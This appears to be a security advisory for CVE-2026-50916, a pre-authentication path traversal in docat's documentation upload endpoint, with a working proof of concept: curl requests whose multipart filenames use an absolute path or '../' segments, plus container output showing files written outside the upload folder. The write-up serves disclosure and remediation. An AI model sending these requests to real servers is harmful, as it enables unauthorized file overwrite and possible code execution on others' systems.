



# CVE-2026-50916 — Pre-Auth Arbitrary File Write via Path Traversal in docat upload()

[CVE ID]
CVE-2026-50916

[PRODUCT]
docat-org/docat — self-hosted documentation host (FastAPI backend + web UI) that serves uploaded documentation archives

[VERSION]
commit `af38694ac655c9a73198fc3aa2915ddeba0c3554` (2026-02-23, "Merge pull request #930 from docat-org/bugfix/update-readme")

[PROBLEM TYPE]
Directory Traversal (`CWE-22`) — arbitrary file write

## Description

The documentation upload endpoint `POST /api/{project}/{version}` (`upload()` in `docat/docat/app.py`) concatenates the URL path parameters `project`/`version` and the client-controlled multipart `file.filename` directly into a filesystem path: `base_path = DOCAT_UPLOAD_FOLDER / project / version` and `target_file = base_path / str(file.filename)`. Because Python's `pathlib` treats an absolute right-hand operand as a full replacement of the base, a filename such as `/tmp/x` (or `../../`-style traversal segments) makes `target_file` point outside the intended `DOCAT_UPLOAD_FOLDER` (`/var/docat/doc`). The bytes of the uploaded part are then written with `target_file.open("wb")` + `shutil.copyfileobj(...)` with no basename enforcement and no resolve/containment check, yielding an arbitrary-path, arbitrary-content file write.

Authentication is conditional rather than absent: docat has a project-scoped `Docat-Api-Key` (minted via `GET /api/{project}/claim` and validated by `check_token_for_project(...)`), but inside `upload()` that check only runs under `if base_path.exists():`, i.e. only when the target `project/version` already exists. A first upload of a fresh `project` + fresh `version` therefore reaches the vulnerable write without any credentials — a pre-auth, unauthenticated remote write primitive.

Vulnerable code: https://github.com/docat-org/docat/blob/af38694ac655c9a73198fc3aa2915ddeba0c3554/docat/docat/app.py#L212-L253

## Proof of Concept

### Victim setup

Built from the pinned commit on the reproduction host (kc1); official Dockerfile (nginx + uvicorn `docat.app:app`), container on assigned port 33502:

```bash
git clone https://github.com/docat-org/docat.git && cd docat
git checkout af38694ac655c9a73198fc3aa2915ddeba0c3554
docker build -t scdd_50916_docat:af38694 .
docker run -d --name scdd_50916_docat -p 33502:5000 scdd_50916_docat:af38694
# readiness: docat answers "/" with 404 through nginx; any HTTP response = ready
curl -sS -o /dev/null -w '%{http_code}\n' http://127.0.0.1:33502/   # -> 404
```



### Attack steps

Unauthenticated (no `Docat-Api-Key` header; fresh `project`/`version` stays on the no-token path). The multipart part's `filename` is the tainted parameter:

```bash
MARKER="SCDD_DOCAT_aed633dde227_1790569247"
printf '%s\n' "$MARKER" > /tmp/scdd_docat_payload_50916.bin

# Variant 1: absolute path as multipart filename
curl -sS -i -X POST http://127.0.0.1:33502/api/scdd_50916_1790569247/v1 \
  -F 'file=@/tmp/scdd_docat_payload_50916.bin;filename=/tmp/scdd_docat_write_aed633dde227.txt;type=application/octet-stream'

# Variant 2: classic dot-dot traversal as multipart filename
curl -sS -i -X POST http://127.0.0.1:33502/api/scdd_50916_1790569247/v2 \
  -F 'file=@/tmp/scdd_docat_payload_50916.bin;filename=../../../../../../../tmp/scdd_docat_write_aed633dde227_rel.txt;type=application/octet-stream'
```

Both requests return `HTTP/1.1 201 Created` with `{"message":"Documentation uploaded successfully, but no index.html found at root of archive."}`



### Evidence

Verification inside the container shows the attacker-chosen files (both variants) exist with the exact attacker-controlled content, outside the intended upload tree; a recursive grep proves no copy landed under `DOCAT_UPLOAD_FOLDER` (`/var/docat/doc`), whose freshly created `v1`/`v2` directories are empty (excerpts, abridged for readability; full session: `evidence/transcript.txt`):

```console
$ docker exec scdd_50916_docat bash -lc 'ls -la /tmp/scdd_docat_write_aed633dde227.txt && cat /tmp/scdd_docat_write_aed633dde227.txt'
-rw-r--r-- 1 root root 35 Sep 28 04:20 /tmp/scdd_docat_write_aed633dde227.txt
SCDD_DOCAT_aed633dde227_1790569247
$ docker exec scdd_50916_docat bash -lc 'ls -la /tmp/scdd_docat_write_aed633dde227_rel.txt && cat /tmp/scdd_docat_write_aed633dde227_rel.txt'
-rw-r--r-- 1 root root 35 Sep 28 04:20 /tmp/scdd_docat_write_aed633dde227_rel.txt
SCDD_DOCAT_aed633dde227_1790569247
$ docker exec scdd_50916_docat bash -lc 'ls -R /var/docat/doc/scdd_50916_1790569247; grep -r "SCDD_DOCAT_aed633dde227_1790569247" /var/docat 2>/dev/null || echo "marker not under DOCAT_UPLOAD_FOLDER"'
/var/docat/doc/scdd_50916_1790569247:
v1
v2
--- no marker copies under /var/docat ---
marker not under DOCAT_UPLOAD_FOLDER
```

Pre-attack `ls` of both target paths had returned "No such file or directory", confirming the files were created by the requests above.



## Impact

An unauthenticated remote client can write attacker-controlled content to an arbitrary path writable by the docat process — in the official image the process runs as root, so this covers most of the container filesystem. Both an absolute path and `../` traversal in the multipart `filename` work; the URL `project`/`version` segments are likewise unconstrained path components. Constraints: only the `base_path` (`DOCAT_UPLOAD_FOLDER/project/version`) is created with `mkdir(parents=True)`; for a target outside that base the parent directory must already exist; `extract_archive` additionally processes the upload only when its suffix is `.zip`; and overwriting a `project/version` that already exists would require that project's `Docat-Api-Key` — the default first-upload path needs no credentials. The verified effect is a pre-auth arbitrary file write (content and path fully controlled). Remote code execution — e.g. overwriting executable or configuration files read at startup — is a plausible consequence consistent with the CVE description, but was not demonstrated here and remains conditional on such a file being present and writable.

## Occurrences

- `docat/docat/app.py:L212-L213` — vulnerable route `POST /api/{project}/{version}` / `upload()`
- `docat/docat/app.py:L229-L231` — `base_path = DOCAT_UPLOAD_FOLDER / project / version`; `target_file = base_path / str(file.filename)` with untrusted, unchecked components
- `docat/docat/app.py:L238-L239` — token check (`check_token_for_project`) only under `if base_path.exists():` (absent for fresh project/version)
- `docat/docat/app.py:L247` — `base_path.mkdir(parents=True, exist_ok=True)`
- `docat/docat/app.py:L251-L252` — sink: `target_file.open("wb")` + `shutil.copyfileobj(file.file, buffer)`

## References

- [CVE-2026-50916](https://www.cve.org/CVERecord?id=CVE-2026-50916)
- https://github.com/docat-org/docat
- Vulnerable code at pinned commit: https://github.com/docat-org/docat/blob/af38694ac655c9a73198fc3aa2915ddeba0c3554/docat/docat/app.py#L212-L253
